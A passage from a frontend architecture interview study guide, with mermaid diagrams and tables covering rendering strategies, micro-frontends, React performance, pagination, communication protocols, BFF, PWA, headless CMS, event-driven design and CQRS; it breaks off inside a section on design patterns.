|---|---|---|
| **Cause** | Unhandled exception | UI thread blocked > 5 seconds |
| **User experience** | App closes abruptly | App freezes, dialog shown |
| **Debug artifact** | Stack trace | Thread dump |
| **Ease of debugging** | Easier (clear stack trace) | Harder (state snapshot) |
| **Prevention** | Null checks, try-catch | Move work to background thread |

> **ANR Example:** Performing a database query directly on the main thread causes the UI to freeze for the duration of the query. **Fix:** Use Kotlin coroutines (`viewModelScope.launch { withContext(Dispatchers.IO) { ... } }`) to move the query to a background thread.

---

*Last updated: June 2026 | Clean version of Description-UI Questions*

---

## Additional Material from Description-UI-Architecture-Complete.md

> Unique additions: rendering-strategies, module-federation, CQRS, headless-architecture.


> Consolidates: Web Rendering Strategies · Micro-frontends · Performance Optimization · Frontend Architecture Patterns · PWA · Headless · EDA · CQRS · BFF · TypeScript · SOLID · Design Patterns · RADIO Framework

---

## Table of Contents

1. [Web Rendering Strategies](#1-web-rendering-strategies)
2. [Micro-frontends & Module Federation](#2-micro-frontends--module-federation)
3. [React Performance Optimization](#3-react-performance-optimization)
4. [Pagination & Rate Limiting](#4-pagination--rate-limiting)
5. [Communication Protocols](#5-communication-protocols)
6. [Frontend Architecture Patterns](#6-frontend-architecture-patterns)
7. [Thick vs Thin Clients](#7-thick-vs-thin-clients)
8. [BFF (Backend for Frontend) Pattern](#8-bff-backend-for-frontend-pattern)
9. [Progressive Web Apps (PWA)](#9-progressive-web-apps-pwa)
10. [Headless Architecture](#10-headless-architecture)
11. [Event-Driven Architecture (EDA)](#11-event-driven-architecture-eda)
12. [CQRS & Event Sourcing](#12-cqrs--event-sourcing)
13. [GoF Design Patterns for Frontend](#13-gof-design-patterns-for-frontend)
14. [SOLID Principles for Web](#14-solid-principles-for-web)
15. [TypeScript Advanced Concepts](#15-typescript-advanced-concepts)
16. [RADIO Interview Framework](#16-radio-interview-framework)
17. [Core Web Vitals & Accessibility](#17-core-web-vitals--accessibility)

---

## 1. Web Rendering Strategies

### Overview
Rendering strategy defines where and when HTML is generated — the decision has major implications for SEO, Time to First Byte (TTFB), interactivity, and server cost.

### Rendering Strategy Taxonomy

```mermaid
flowchart TD
    Q(["When/Where is HTML generated?"]) --> TYPES

    TYPES --> CSR["CSR — Client-Side Rendering\nBrowser downloads empty HTML + JS bundle\nJS runs in browser, fetches data, builds DOM\nFrameworks: React SPA, Vue SPA, Angular SPA\n+++ Rich interactivity, no server reload\n--- Poor SEO (bot may not wait for JS)\n--- Slow initial load (large bundle)\nBest for: Dashboards, admin panels, B2B apps"]

    TYPES --> SSR["SSR — Server-Side Rendering\nServer generates full HTML per request\nBrowser receives ready-to-display HTML\nFrameworks: Next.js, Nuxt.js, Remix\n+++ Excellent SEO, fast TTFB\n--- Server CPU per request\n--- Flash on navigation (full page fetch)\nBest for: Marketing sites, e-commerce product pages"]

    TYPES --> SSG["SSG — Static Site Generation\nHTML generated at BUILD TIME, not request time\nServed from CDN — no server needed at runtime\nFrameworks: Next.js, Gatsby, Astro\n+++ Fastest load (pre-built, CDN-cached)\n--- Stale data (rebuild needed for updates)\nBest for: Blogs, documentation, landing pages"]

    TYPES --> ISR["ISR — Incremental Static Regeneration\nSSG pages revalidated after a TTL expires\nFirst stale request triggers background rebuild\nNext request gets fresh page\nFrameworks: Next.js (revalidate: 60)\n+++ Near-static speed + fresh content\n--- Short window of stale data\nBest for: News sites, product listings, pricing pages"]

    TYPES --> PPR["PPR — Partial Pre-Rendering (Next.js 15)\nStatic shell rendered at build time (CDN-cached)\nDynamic holes filled by Suspense streaming\nCombines SSG speed with SSR dynamism\nFrameworks: Next.js 15+ (experimental)\n+++ Best of both worlds\n--- Very new, limited framework support\nBest for: Product pages with dynamic recommendations"]

    style CSR fill:#f59e0b,color:#fff
    style SSR fill:#0078D4,color:#fff
    style SSG fill:#22c55e,color:#fff
    style ISR fill:#8b5cf6,color:#fff
    style PPR fill:#22c55e,color:#fff
```

### Rendering Performance Comparison

| Strategy | TTFB | FCP | SEO | Hosting cost | Stale risk |
|---|---|---|---|---|---|
| CSR | Fast | Slow (bundle download + JS run) | Poor | Low (static files) | None |
| SSR | Medium | Fast | Excellent | High (server per req) | None |
| SSG | Fast (CDN) | Fast (pre-built) | Excellent | Very low (CDN) | High (rebuild required) |
| ISR | Fast (CDN) | Fast | Excellent | Low | Low (TTL-bounded) |
| PPR | Fast (static shell) | Fast (streaming) | Excellent | Low | Very low |

### Interview Talking Points

| Question | Answer |
|---|---|
| Why does CSR hurt SEO? | Search engine crawlers may not execute JavaScript or may time out before JS builds the DOM. The crawler sees an empty `<div id="root">` instead of real content. SSR or SSG sends complete HTML immediately. |
| When would you choose SSG over SSR? | When content doesn't change per user or per minute. A marketing page, blog post, or documentation site is identical for all users — build it once, cache it at the edge forever. SSR for the same content wastes server CPU on identical work. |
| What problem does ISR solve? | SSG gets stale when data changes. ISR adds a TTL so that after N seconds, the next request triggers a background regeneration — the stale page still serves immediately (no user waits for rebuild), and fresh content is ready on the next subsequent request. |

---

## 2. Micro-frontends & Module Federation

### Overview
Micro-frontends apply microservices principles to the frontend — splitting a monolithic frontend into independently deployable UI applications owned by different teams.

### Micro-frontend Architecture

```mermaid
flowchart TD
    SHELL["Shell / Container App\n(App host — bootstraps the MFE runtime)\nOwns global nav, auth, routing\nDeploys independently"]

    SHELL --> CATALOG["Catalog MFE\n(Team A)\nProduct browsing + search\nReact 18 + TypeScript\nDeployed on its own schedule"]

    SHELL --> CART["Cart MFE\n(Team B)\nShopping cart + checkout\nReact 18 + TypeScript\nOwns /cart and /checkout routes"]

    SHELL --> AUTH_MFE["Auth MFE\n(Team C)\nLogin, Register, Profile\nAngular 17\nExposes LoginWidget component"]

    SHELL --> SHARED["Shared Lib\n(Design System + Utils)\nButton, Typography, Icons\nPublished to NPM or CDN\nVersioned explicitly"]

    style SHELL fill:#0f172a,color:#fff
    style CATALOG fill:#0078D4,color:#fff
    style CART fill:#22c55e,color:#fff
    style AUTH_MFE fill:#8b5cf6,color:#fff
    style SHARED fill:#f59e0b,color:#fff
```

### Module Federation (Webpack 5)

```mermaid
flowchart LR
    subgraph HOST ["Host App (Shell)"]
        IMPORT["import('cartApp/Cart')\nDynamic remote import at runtime\nNo rebuild of host needed\nwhen remote updates"]
    end

    subgraph REMOTE ["Remote App (Cart MFE)"]
        EXPOSE["exposes: { './Cart': CartComponent }\nPublishes a component\nas a remote module\n\nshared: ['react', 'react-dom']\nSingleton shared deps\navoid duplicate React instances"]
    end

    HOST -->|"Fetches remoteEntry.js at runtime"| REMOTE

    style HOST fill:#0078D4,color:#fff
    style REMOTE fill:#22c55e,color:#fff
```

### MFE Communication Patterns

| Method | How | Best For |
|---|---|---|
| **Custom Events** | `document.dispatchEvent(new CustomEvent('cart:updated', {detail}))` | Decoupled cross-MFE events |
| **Shared State** | Redux store in shared lib + MFEs subscribe | Complex shared state (prefer to minimize) |
| **URL / Query Params** | Each MFE reads URL; navigation triggers updates | Deep-linkable state, shallow integration |
| **Props / Callbacks** | Shell passes down to MFE components | Simple parent→child data passing |
| **Event Bus** | Pub/sub singleton (`mitt`, `RxJS Subject`) | Type-safe event routing |

### MFE Trade-offs

| Pro | Con |
|---|---|
| Teams deploy independently — no release train | Multiple React instances if shared deps not configured correctly |
| Each team owns their tech stack | Consistent UX harder across teams (use design system) |
| Fault isolation — one MFE crash doesn't kill shell | Higher complexity: CI/CD, versioning, contract testing |
| Scale teams horizontally | Increased initial bundle load (multiple entry points) |

---

## 3. React Performance Optimization

### Re-render Prevention

```mermaid
flowchart TD
    RERENDER(["Unnecessary Re-render Problem"]) --> Q{"What to use?"}

    Q -->|"Memoize component (skip re-render\nwhen props unchanged)"| MEMO["React.memo()\nWraps a function component\nShallow-compares props\nSkip re-render if props same"]

    Q -->|"Memoize a function reference\n(stable ref between renders)"| UCB["useCallback(fn, [deps])\nReturns same fn reference\nuntil deps change\nPrevents child re-renders\nfrom inline fn prop"]

    Q -->|"Memoize a computed value\n(expensive calculation)"| UM["useMemo(() => expensive(), [deps])\nRe-computes only when deps change\nDon't use for simple values"]

    style MEMO fill:#0078D4,color:#fff
    style UCB fill:#22c55e,color:#fff
    style UM fill:#8b5cf6,color:#fff
    style RERENDER fill:#ef4444,color:#fff
```

### Code Splitting & Lazy Loading

```mermaid
flowchart LR
    INITIAL["Initial Page Load"] --> SPLIT{"Without Code Split"}
    SPLIT -->|"Download"| GIANT["Single 5MB bundle\n(all routes, all components)\nUser waits for ALL code\nbefore seeing anything"]

    INITIAL --> LAZY{"With Lazy Loading"}
    LAZY -->|"Download"| SMALL["Small entry bundle\n(just what's needed now)"]
    SMALL -->|"User navigates to /admin"| CHUNK["Admin chunk downloaded\nonly when needed"]

    style GIANT fill:#ef4444,color:#fff
    style SMALL fill:#22c55e,color:#fff
    style CHUNK fill:#22c55e,color:#fff
```

### Tree Shaking
Tree shaking eliminates dead code from JavaScript bundles at build time.

```mermaid
flowchart LR
    SOURCE["Source Code:\nimport { formatDate } from 'utils'\n\nutils.js exports 50 functions\nOnly formatDate is used"] --> BUNDLER["Bundler (Webpack / Rollup / esbuild)\nStatic analysis of import graph\nIdentifies used exports"]
    BUNDLER --> OUTPUT["Bundle: only formatDate included\nOther 49 functions removed (dead code)\nRequires ES Modules (import/export)\nNOT CommonJS (require)"]

    style SOURCE fill:#f59e0b,color:#fff
    style OUTPUT fill:#22c55e,color:#fff
```

### API Caching

| Tool | Approach | Best For |
|---|---|---|
| **React Query (TanStack Query)** | `useQuery` — automatic stale-while-revalidate, retry, background refetch | REST APIs with cache invalidation |
| **SWR** | `useSWR` — stale-while-revalidate pattern, lightweight | Simple data fetching with auto-revalidation |
| **Apollo Client** | GraphQL-specific; normalized in-memory cache | GraphQL APIs; complex data dependencies |
| **RTK Query** | Redux Toolkit's built-in data fetching + caching | Apps already using Redux |

---

## 4. Pagination & Rate Limiting

### Pagination Strategies

```mermaid
flowchart TD
    PAG(["Pagination Strategy"]) --> LO["Limit-Offset\nGET /items?limit=20&offset=40\nSimple, widely supported\nCON: slow for large offsets (DB scans all rows)\nCON: duplicates if rows inserted while paging"]

    PAG --> CB["Cursor-Based\nGET /items?cursor=eyJpZCI6MTIzfQ==\nOpaque token (base64 of last-seen ID/timestamp)\nPRO: O(log N) — uses index efficiently\nPRO: stable — inserts/deletes don't shift pages\nBest for: infinite scroll, social feeds"]

    PAG --> PB["Page-Based\nGET /items?page=3&pageSize=20\nSame as offset (page * size = offset)\nFamiliar UX: 'Page 1 of 50'\nSame cons as offset"]

    style LO fill:#f59e0b,color:#fff
    style CB fill:#22c55e,color:#fff
    style PB fill:#f59e0b,color:#fff
```

### Debounce vs Throttle

```mermaid
flowchart LR
    subgraph DEBOUNCE ["Debounce — 'Wait for silence'"]
        D1["User typing: a...an...and...andr...\nEach keystroke resets a timer\nCallback fires ONLY when user\nstops typing for N ms\nUse case: search autocomplete\nType 'android' → one API call"]
    end

    subgraph THROTTLE ["Throttle — 'Allow max N times per second'"]
        T1["Scroll event fires 100x/second\nThrottle: allow at most once per 100ms\nCallback fires at regular intervals\nUse case: scroll listeners, resize,\nmap pan — steady stream but limited"]
    end

    EVENTS(["High-frequency events\n(typing, scrolling, resizing, mouse move)"]) --> DEBOUNCE
    EVENTS --> THROTTLE

    style D1 fill:#0078D4,color:#fff
    style T1 fill:#22c55e,color:#fff
    style EVENTS fill:#0f172a,color:#fff
```

### Rate Limiting (Server-Side)

| Algorithm | How it works | Best for |
|---|---|---|
| **Fixed Window** | Counter resets every N seconds; reject if limit exceeded | Simple APIs; cheap to implement |
| **Sliding Window** | Count requests in a rolling time window | More accurate; prevents boundary bursts |
| **Token Bucket** | Tokens refill at rate R; each request consumes one | Burst-friendly; AWS API Gateway uses this |
| **Leaky Bucket** | Requests processed at fixed rate; excess queued/dropped | Smooth, predictable output rate |

---

## 5. Communication Protocols

### Protocol Decision Tree

```mermaid
flowchart TD
    NEED(["Frontend communication need"]) --> Q1{"Request type?"}

    Q1 -->|"Simple request-response"| REST_C["REST / HTTP\nGET POST PUT DELETE\nStateless, simple, cacheable\nJSON + HTTP/1.1 or HTTP/2"]

    Q1 -->|"Query with flexible fields"| GQL_C["GraphQL\nSingle endpoint /graphql\nClient defines shape of response\nNo over-fetching"]

    Q1 -->|"Real-time server push"| Q2{"Bi-directional?"}

    Q2 -->|"Server → Client only\n(notifications, feeds)"| SSE_C["Server-Sent Events\ntext/event-stream\nAuto-reconnect\nSimpler than WebSockets\nHTTP/2 multiplexed"]

    Q2 -->|"Full bi-directional\n(chat, gaming)"| WS_C["WebSockets\nPersistent TCP upgrade\nws:// or wss://\nFull-duplex"]

    Q1 -->|"Service-to-service\n(BFF calling backend)"| GRPC_C["gRPC\nHTTP/2 + Protobuf\nStrongly typed contracts\nHigh throughput, low latency\nNot browser-native (needs grpc-web)"]

    style REST_C fill:#0078D4,color:#fff
    style GQL_C fill:#8b5cf6,color:#fff
    style SSE_C fill:#22c55e,color:#fff
    style WS_C fill:#22c55e,color:#fff
    style GRPC_C fill:#f59e0b,color:#fff
```

### Long Polling vs WebSockets vs SSE

| | Long Polling | SSE | WebSockets |
|---|---|---|---|
| **Connection** | New HTTP request per message | One persistent HTTP connection | One persistent TCP connection |
| **Direction** | Client pulls (simulated push) | Server → Client only | Bidirectional |
| **Overhead** | High (new request per update) | Low (one connection, stream) | Low (persistent) |
| **Auto-reconnect** | Client must implement | Built into EventSource API | Client must implement |
| **Complexity** | Low | Low | High |
| **Use case** | Legacy support, simple fallback | Live ticker, notifications, feeds | Chat, games, collaborative editing |

---

## 6. Frontend Architecture Patterns

### Pattern Taxonomy

```mermaid
flowchart TD
    PATTERNS["Frontend Architecture Patterns"] --> LAYERED["Layered Patterns\n(who knows about whom?)"]
    PATTERNS --> COMPONENT["Component-Based\n(UI structure)"]
    PATTERNS --> SYSTEM["System Patterns\n(code organization)"]

    LAYERED --> MVC_L["MVC — Model View Controller\nController mediates View ↔ Model"]
    LAYERED --> MVP_L["MVP — Model View Presenter\nPassive View; Presenter drives UI"]
    LAYERED --> MVVM_L["MVVM — Model View ViewModel\nViewModel exposes observable state"]
    LAYERED --> MVVMC_L["MVVM-C — + Coordinator\nAdds navigation coordination layer"]
    LAYERED --> VIPER_L["VIPER\nView-Interactor-Presenter-Entity-Router\nStrict mobile-first separation"]

    SYSTEM --> CLEAN["Clean Architecture\nConcentric dependency rings"]
    SYSTEM --> HEX["Hexagonal (Ports & Adapters)\nCore ← Ports ← Adapters (UI/DB/API)"]
    SYSTEM --> SCREAM["Screaming Architecture\nFolder structure by domain, not by type"]
    SYSTEM --> VERT["Vertical Slices\nFeature-first slices cut through all layers"]

    style LAYERED fill:#0078D4,color:#fff
    style COMPONENT fill:#8b5cf6,color:#fff
    style SYSTEM fill:#22c55e,color:#fff
```

### MVC vs MVP vs MVVM

```mermaid
flowchart TD
    subgraph MVC ["MVC (Original)"]
        M1["Model\n(data + business logic)"]
        V1["View\n(may update Model directly)"]
        C1["Controller\n(handles events, updates Model)"]
        V1 <-->|"View knows Model"| M1
        C1 --> M1
        C1 --> V1
    end

    subgraph MVP ["MVP (Testable)"]
        M2["Model\n(data + business logic)"]
        V2["View (Passive)\n(implements interface, no logic)"]
        P2["Presenter\n(all UI logic + updates View via interface)"]
        P2 --> M2
        P2 <-->|"Only via interface"| V2
    end

    subgraph MVVM ["MVVM (Reactive)"]
        M3["Model\n(data + business logic)"]
        V3["View\n(data-binds to ViewModel)"]
        VM3["ViewModel\n(exposes observable state\nno reference to View)"]
        V3 <-->|"Two-way binding\nobservable/reactive"| VM3
        VM3 --> M3
    end

    style M1 fill:#0f172a,color:#fff
    style V1 fill:#ef4444,color:#fff
    style C1 fill:#f59e0b,color:#fff
    style M2 fill:#0f172a,color:#fff
    style V2 fill:#0078D4,color:#fff
    style P2 fill:#22c55e,color:#fff
    style M3 fill:#0f172a,color:#fff
    style V3 fill:#0078D4,color:#fff
    style VM3 fill:#22c55e,color:#fff
```

### Hexagonal Architecture (Ports & Adapters)

```mermaid
flowchart LR
    UI_A["UI Adapter\n(React, Angular, Vue)"]
    DB_A["DB Adapter\n(Prisma, TypeORM)"]
    API_A["API Adapter\n(REST, GraphQL, gRPC)"]
    MSG_A["Message Adapter\n(Kafka, SQS)"]

    UI_A --> PORT_IN["Inbound Port\n(UseCase interfaces)"]
    PORT_IN --> CORE["Core Domain\n(Business Logic\nPure functions\nNo external deps)"]
    CORE --> PORT_OUT["Outbound Port\n(Repository interfaces)"]
    PORT_OUT --> DB_A
    PORT_OUT --> API_A
    PORT_OUT --> MSG_A

    style CORE fill:#22c55e,color:#fff
    style PORT_IN fill:#0078D4,color:#fff
    style PORT_OUT fill:#8b5cf6,color:#fff
    style UI_A fill:#f59e0b,color:#fff
```

### Screaming Architecture vs Vertical Slices

```mermaid
flowchart LR
    subgraph TECH ["Technical Structure (anti-pattern)"]
        direction TB
        TA1["src/\n├── components/\n│   ├── ProductCard.tsx\n│   ├── CartItem.tsx\n│   └── UserProfile.tsx\n├── hooks/\n│   ├── useProduct.ts\n│   └── useCart.ts\n└── services/\n    ├── productService.ts\n    └── cartService.ts"]
    end

    subgraph SCREAM2 ["Screaming / Feature-First (recommended)"]
        direction TB
        SA1["src/\n├── features/\n│   ├── product/\n│   │   ├── ProductCard.tsx\n│   │   ├── useProduct.ts\n│   │   └── productService.ts\n│   └── cart/\n│       ├── CartItem.tsx\n│       ├── useCart.ts\n│       └── cartService.ts"]
    end

    subgraph VERT2 ["Vertical Slices (per use case)"]
        direction TB
        VA1["src/\n├── AddToCart/\n│   ├── AddToCartButton.tsx (UI)\n│   ├── addToCart.handler.ts (logic)\n│   └── cart.repository.ts (data)\n└── ViewProduct/\n    ├── ProductPage.tsx\n    ├── viewProduct.query.ts\n    └── product.api.ts"]
    end

    style TECH fill:#ef4444,color:#fff
    style SCREAM2 fill:#22c55e,color:#fff
    style VERT2 fill:#0078D4,color:#fff
```

### Architecture Pattern Interview Q&A

| Question | Answer |
|---|---|
| Why is Screaming Architecture preferred over technical folder structure? | When you open the codebase, the folder structure should "scream" the domain. `src/features/checkout` tells you more than `src/components`. Grouping by feature co-locates all related code (UI, logic, tests, types) — reducing cognitive load and cross-folder jumps. |
| What is the key invariant of Clean Architecture? | The dependency rule: source code dependencies must point inward only. The domain/entity layer has zero knowledge of the UI framework, database, or network. Outer layers (UI, DB adapters) depend on inner layers, never the reverse. |
| How does Hexagonal Architecture differ from Clean? | Both share the "ports and adapters" intuition, but Hexagonal makes the port-as-interface concept explicit: inbound ports (APIs into the app) and outbound ports (interfaces the app calls out through). Clean Architecture adds the concentric-ring visual metaphor and names layers more specifically. |

---

## 7. Thick vs Thin Clients

```mermaid
flowchart LR
    subgraph THIN ["Thin Client"]
        T_SERVER["Server holds all logic + state\nClient is just a display terminal\nExamples: Server-rendered pages,\nterminal apps, remote desktop\nPros: Simple client, easy to update\nCons: Server-dependent, offline impossible"]
    end

    subgraph THICK ["Thick / Fat Client"]
        TH_CLIENT["Client holds significant logic + state\nRich local capabilities\nExamples: SPAs, desktop apps, games\nPros: Offline capable, rich UX\nCons: Larger download, device resource use"]
    end

    subgraph SMART ["Smart Client (Modern Middle Ground)"]
        SM["Hybrid: logic split between client and server\nClient handles UI state, validation, optimistic UI\nServer handles auth, business rules, persistence\nExamples: Next.js with Server Components\nPros: Best of both worlds\nCons: Complex deployment"]
    end

    style THIN fill:#ef4444,color:#fff
    style THICK fill:#0078D4,color:#fff
    style SMART fill:#22c55e,color:#fff
```

---

## 8. BFF (Backend for Frontend) Pattern

### Overview
A Backend for Frontend is a dedicated server-side layer — thin API gateway — tailored to the needs of a specific frontend client (web, mobile, TV). Instead of one general-purpose API serving all clients differently, each client gets its own BFF that aggregates, shapes, and transforms data specifically for it.

### BFF Architecture

```mermaid
flowchart TD
    WEB_CLIENT["Web Browser\n(React SPA)"] --> WEB_BFF["Web BFF\n(Node.js / Next.js API Routes)\nMerges user + product + inventory\ninto one response payload\nTailored fields for large screen"]

    MOBILE_CLIENT["Mobile App\n(iOS / Android)"] --> MOB_BFF["Mobile BFF\n(Node.js / .NET Minimal API)\nLightweight payloads\nOptimized for slow networks\nPush notification registration"]

    TV_CLIENT["Smart TV"] --> TV_BFF["TV BFF\n(Streamlined content)\nLimited interaction model\nLarge asset serving"]

    WEB_BFF --> USER_SVC["User Service"]
    WEB_BFF --> PRODUCT_SVC["Product Service"]
    WEB_BFF --> INVENTORY_SVC["Inventory Service"]
    MOB_BFF --> USER_SVC
    MOB_BFF --> PRODUCT_SVC

    style WEB_BFF fill:#0078D4,color:#fff
    style MOB_BFF fill:#22c55e,color:#fff
    style TV_BFF fill:#8b5cf6,color:#fff
    style WEB_CLIENT fill:#0f172a,color:#fff
    style MOBILE_CLIENT fill:#0f172a,color:#fff
```

### BFF Interview Q&A

| Question | Answer |
|---|---|
| Why not just have the frontend call microservices directly? | Frontend would need to orchestrate multiple API calls, aggregate responses, handle partial failures, and format data — putting complex logic in the client. The BFF moves this to the server side where it's closer to services, can run parallel requests efficiently, and can be tested independently. |
| What's the difference between BFF and API Gateway? | An API Gateway is a generic cross-cutting infrastructure layer (auth, rate limiting, routing). A BFF is application-specific — it contains business logic tailored to a specific client. You may have a BFF behind an API Gateway. |
| When does BFF become an anti-pattern? | When BFF teams become bottlenecks for frontend teams (they must wait for BFF changes). Solution: frontend teams own their BFF. Also when BFF accumulates too much business logic that should live in domain services. |

---

## 9. Progressive Web Apps (PWA)

### PWA Capabilities

```mermaid
flowchart TD
    PWA(["Progressive Web App"]) --> SW["Service Worker\nJavaScript worker running\nin background thread\nNo access to DOM\nProxy all network requests\nEnable offline capability\nCache-first strategies"]

    PWA --> WAM["Web App Manifest\nmanifest.json\nApp name, icons, theme color\nstart_url, display: standalone\nEnables 'Add to Home Screen'"]

    PWA --> PUSH["Push Notifications\nvia Web Push API\nServer sends push\nService Worker shows notification\nWorks even when app not open"]

    PWA --> OFFLINE["Offline Support\nService Worker caches assets\nCache-first: load from cache,\nupdate in background\nStale-while-revalidate strategy"]

    style SW fill:#0078D4,color:#fff
    style WAM fill:#22c55e,color:#fff
    style PUSH fill:#8b5cf6,color:#fff
    style OFFLINE fill:#f59e0b,color:#fff
```

### Service Worker Caching Strategies

```mermaid
flowchart LR
    REQ(["Request"]) --> STRAT{"Caching\nstrategy?"}

    STRAT -->|"Static assets\n(CSS, JS, fonts)"| CF["Cache First\nCheck cache → serve\nif found, else fetch + cache\nFastest, may be stale"]

    STRAT -->|"API calls where\nfreshness matters"| NF["Network First\nFetch → serve\nif fail, fall back to cache\nFreshest, but slow on bad network"]

    STRAT -->|"Feeds, dashboards"| SWR_SW["Stale-While-Revalidate\nServe cache immediately\nFetch update in background\nCache updated for next visit"]

    STRAT -->|"Login page,\ncritical assets"| NO["Network Only\nAlways fetch, no cache\nReal-time data only"]

    style CF fill:#22c55e,color:#fff
    style NF fill:#0078D4,color:#fff
    style SWR_SW fill:#22c55e,color:#fff
    style NO fill:#ef4444,color:#fff
```

---

## 10. Headless Architecture

### Headless vs Traditional CMS

```mermaid
flowchart LR
    subgraph TRAD ["Traditional CMS (Monolithic)"]
        T_CONTENT["Content + templates\ntightly coupled\nWordPress, Drupal\nOutput: HTML pages only\nChanging frontend = CMS work"]
    end

    subgraph HEADLESS ["Headless CMS + API"]
        H_CMS["Headless CMS\n(Contentful, Sanity, Strapi)\nContent + API only\nNo frontend opinion"]
        H_WEB["Web Frontend\n(Next.js, React)"]
        H_MOB["Mobile App\n(iOS / Android)"]
        H_KIOSK["Kiosk / TV\n(any frontend)"]

        H_CMS -->|"REST / GraphQL API"| H_WEB
        H_CMS -->|"REST / GraphQL API"| H_MOB
        H_CMS -->|"REST / GraphQL API"| H_KIOSK
    end

    style TRAD fill:#ef4444,color:#fff
    style H_CMS fill:#0f172a,color:#fff
    style H_WEB fill:#22c55e,color:#fff
    style H_MOB fill:#0078D4,color:#fff
    style H_KIOSK fill:#8b5cf6,color:#fff
```

### Headless Commerce Architecture

```mermaid
flowchart TD
    STOREFRONT["Storefront\n(Next.js + React — any framework)"] --> BFF_LAYER["BFF / API Layer\n(aggregates headless services)"]
    BFF_LAYER --> HEADLESS_COMM["Commerce Engine\n(Medusa, Commercetools, Shopify Hydrogen)"]
    BFF_LAYER --> HEADLESS_CMS["Content CMS\n(Contentful, Sanity)"]
    BFF_LAYER --> SEARCH_SVC["Search Service\n(Algolia, ElasticSearch)"]
    BFF_LAYER --> PAYMENT["Payment\n(Stripe, Adyen)"]

    style STOREFRONT fill:#22c55e,color:#fff
    style BFF_LAYER fill:#0078D4,color:#fff
    style HEADLESS_COMM fill:#8b5cf6,color:#fff
```

---

## 11. Event-Driven Architecture (EDA)

### EDA Overview

```mermaid
flowchart TD
    PRODUCER["Event Producer\n(Service that emits events)\nOrder Service: 'order.placed'"] -->|"Publishes to"| BROKER["Event Broker\n(Kafka / RabbitMQ / Azure Service Bus / SQS+SNS)\nDecouples producers from consumers\nDurable: stores events\nReplay: reprocess historical events"]

    BROKER -->|"Subscribes"| CONS1["Consumer 1\nInventory Service\nReserves stock when order placed"]
    BROKER -->|"Subscribes"| CONS2["Consumer 2\nNotification Service\nSends confirmation email"]
    BROKER -->|"Subscribes"| CONS3["Consumer 3\nAnalytics Service\nRecords order metrics"]

    style PRODUCER fill:#0f172a,color:#fff
    style BROKER fill:#0078D4,color:#fff
    style CONS1 fill:#22c55e,color:#fff
    style CONS2 fill:#22c55e,color:#fff
    style CONS3 fill:#22c55e,color:#fff
```

### EDA vs Request-Response

| | Request-Response (REST) | Event-Driven |
|---|---|---|
| **Coupling** | Tight: caller knows callee's address | Loose: producer publishes; consumers self-register |
| **Availability** | Both services must be up simultaneously | Consumer can be down; events wait in broker |
| **Scalability** | Caller waits; fan-out = N sequential calls | Broker fans out to N consumers in parallel |
| **Complexity** | Low | High: eventual consistency, ordering guarantees, idempotency |
| **Best for** | Simple CRUD, queries, synchronous workflows | Complex workflows, high fan-out, audit trails |

### Event Brokers Comparison

| Broker | Best For | Key Feature |
|---|---|---|
| **Apache Kafka** | High-throughput event streaming, event sourcing, data pipelines | Durable log; consumer groups; replay; very high throughput |
| **RabbitMQ** | Task queues, microservice messaging, fan-out | Flexible routing (exchanges/bindings); low latency |
| **Azure Service Bus** | Enterprise Azure messaging; sessions; dead-letter queue | Managed; sessions for ordered processing; guaranteed delivery |
| **AWS SQS + SNS** | AWS-native; fan-out with SNS + SQS fanout pattern | Serverless-friendly; SQS for queue, SNS for pub/sub |
| **Redis Pub/Sub** | In-memory; very low latency | Fire-and-forget; not durable; at-most-once |

---

## 12. CQRS & Event Sourcing

### CQRS (Command Query Responsibility Segregation)

```mermaid
flowchart LR
    CLIENT(["Client Request"]) --> Q_TYPE{"Command or\nQuery?"}

    Q_TYPE -->|"Write / Change state"| COMMAND["Command Side\nCreate/Update/Delete\nWrite DB (normalized)\nReturns: void or success/fail\nOptimized for writes"]

    Q_TYPE -->|"Read data"| QUERY["Query Side\nRead-only\nRead DB / Read Model\n(denormalized for reads)\nReturns: data\nOptimized for reads"]

    COMMAND -->|"Publishes domain events"| EVENT_BUS["Event Bus\n(Kafka / Service Bus)"]
    EVENT_BUS -->|"Updates"| READ_MODEL["Read Model (Projection)\nMaterialized view, pre-aggregated\nOptimized for specific queries"]
    READ_MODEL --> QUERY

    style COMMAND fill:#ef4444,color:#fff
    style QUERY fill:#22c55e,color:#fff
    style EVENT_BUS fill:#0078D4,color:#fff
    style READ_MODEL fill:#8b5cf6,color:#fff
```

### Event Sourcing

```mermaid
flowchart LR
    EVENTS["Event Store (Append-Only)\n─────────────────────\nOrderCreated {id:1, ...}\nItemAdded {id:1, item:'shirt'}\nCouponApplied {id:1, code:'SAVE10'}\nOrderPaid {id:1, amount:90}\n─────────────────────\nNever updates/deletes\nSource of truth = the event log"]

    EVENTS -->|"Replay events to build"| CURRENT["Current State\n(order #1 is paid, contains shirt)\nRebuilt from events on demand"]

    EVENTS -->|"Project events to"| VIEWS["Read Views / Projections\nOrder summary view\nCustomer order history\nAnalytics dashboard"]

    style EVENTS fill:#0f172a,color:#fff
    style CURRENT fill:#22c55e,color:#fff
    style VIEWS fill:#0078D4,color:#fff
```

### CQRS + Event Sourcing — Interview Q&A

| Question | Answer |
|---|---|
| What problem does CQRS solve? | Traditional CRUD mixes reads and writes on the same model. Reads and writes have different scaling needs (reads are often 10x more frequent), different data shapes (reads need aggregated views, writes need normalized tables), and different optimization strategies. CQRS separates them cleanly. |
| What is a projection in Event Sourcing? | An event-driven materialized view. As new events are appended to the event store, a projector processes them and updates a read-optimized data store (e.g., a denormalized table or Elasticsearch index). Different projections can represent the same events in different ways for different use cases. |
| What are the trade-offs of Event Sourcing? | Benefits: complete audit log, time travel/replay, decoupled read models. Costs: query complexity (can't just SELECT), eventual consistency (projections lag behind events), and schema evolution (old events must still be processable after business logic changes). |

---

## 13. GoF Design Patterns for Frontend

### Most Relevant Patterns for Web/Mobile

```mermaid
flowchart TD
    GOF_FE["GoF Patterns in Frontend Context"] --> OBS["Observer\n(Event Listeners, Pub/Sub, Store subscriptions)\nSubject notifies observers of state changes\nReact useState + useEffect\nRxJS, EventEmitter, document.addEventListener"]

    GOF_FE --> STRAT_P["Strategy\n(Swappable algorithm)\nPayment strategy (Stripe/PayPal/Apple Pay)\nSorting strategy (by price/date/rating)\nRendering strategy (SSR/CSR/SSG)"]

    GOF_FE --> FAC["Factory\nCreate objects without knowing exact class\nReact.createElement — Factory for DOM elements\nViewControllerFactory.make(route:)\nLoggerFactory.create(level:)"]

    GOF_FE --> DEC["Decorator\nAdd behavior without modifying original class\nHigher-Order Components (HOC) in React\nwithAuth(Component) wraps + adds auth check\nwithLogging(Component)"]

